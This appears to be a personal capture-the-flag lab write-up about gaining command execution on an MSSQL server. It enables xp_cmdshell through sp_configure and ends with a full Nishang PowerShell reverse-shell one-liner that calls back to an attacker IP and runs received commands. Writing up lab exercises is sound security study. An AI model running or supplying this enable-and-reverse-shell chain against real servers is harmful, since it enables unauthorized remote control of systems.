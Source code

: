I checked which resulted in 1. Means that this user is a sysadmin.

![[Pasted image 20210403170217.png]]








After we login to the SQL we can execute commands with the help of `xp_cmdshell` But however it has been disabled by default which we need to enable it.

Found one [link](https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server) which informs about enabling the xp_cmdshell.

As per the article we need to have the below commands.

```sql

EXEC sp_configure 'Show Advanced Options', 1; 
reconfigure; 
sp_configure; 
EXEC sp_configure 'xp_cmdshell', 1 
reconfigure; 
xp_cmdshell "whoami" 
```

I have enabled the options like above, Lets see if i can execute the whoami command successfully or not.

![[Pasted image 20210403171137.png]]

Whoa!. I am able to run the command without any issues.


As per [[20-Executing commands in SQL]] we got access to the command may be i can try to execute the command and try to cat out the notes but however i need to get the reverse shell so that i can i have comfirt.

Plan is to upload a TCP one liner powershell code to upload and get the reverse shell back to up. 

[Blog](https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell-with-nishang/) post clearly guides me how i can upload a ps1 reverse shell and get the shell back.

I am going to follow the same method and try to get the access. Lets try.

For the first attemp i am going to use Invoke-PowerShellTcpOneLine.ps1 from nishang.

## Powershell Code

```Powershell

$client = New-Object System.Net.Sockets.TCPClient("10.10.14.231",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

```
